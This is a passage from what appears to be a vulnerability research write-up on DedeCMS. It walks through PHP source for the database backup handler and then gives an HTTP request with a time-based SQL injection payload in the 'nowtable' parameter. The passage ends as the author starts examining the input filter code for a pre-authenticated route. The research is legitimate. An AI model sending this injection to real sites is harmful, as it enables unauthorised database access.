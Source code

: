 ```php
if ($dopost == 'bak') {
    if (empty($tablearr)) {
        ShowMsg('你没选中任何表！', 'javascript:;');
        exit();
    }
    if (!is_dir($bkdir)) {
        MkdirAll($bkdir, $cfg_dir_purview);
        CloseFtp();
    }

    if (empty($nowtable)) {
        $nowtable = '';
    }
    if (empty($fsize)) {
        $fsize = 20480;
    }
    $fsizeb = $fsize * 1024;
    
    //第一页的操作
    if ($nowtable == '') {
        //...
    }
    //执行分页备份
    else {
        $j = 0;
        $fs = array();
        $bakStr = '';

        //分析表里的字段信息
        $dsql->GetTableFields($nowtable); // 10
```

```
GET /dede/sys_data_done.php?dopost=bak&tablearr=1&nowtable=%23@__vote+where+1=sleep(5)--+& HTTP/1.1
Host: target
Cookie: PHPSESSID=jr66dkukb66aifov2sf2cuvuah;
```

But of course, this requires administrator privileges, which is not interesting to us (without an elevation of privilege or authentication bypass). 

## Finding a pre-authenticated endpoint

If we try a little harder though, we can find some more interesting code in `include/filter.inc.php` in the slightly older version: `DedeCMS-V5.7-UTF8-SP2.tar.gz`.

```php
$magic_quotes_gpc = ini_get('magic_quotes_gpc');
function _FilterAll($fk, &$svar)
{
    global $cfg_notallowstr, $cfg_replacestr, $magic_quotes_gpc;
    if (is_array($svar)) {
        foreach ($svar as $_k => $_v) {
            $svar[$_k] = _FilterAll($fk, $_v);
        }
    } else {
        if ($cfg_notallowstr != '' && preg_match("#" . $cfg_notallowstr . "#i", $svar)) {
            ShowMsg(" $fk has not allow words!", '-1');
            exit();
        }
        if ($cfg_replacestr != '') {
            $svar = preg_replace('/' . $cfg_replacestr . '/i', "***", $svar);
        }
    }
    if (!$magic_quotes_gpc) {
```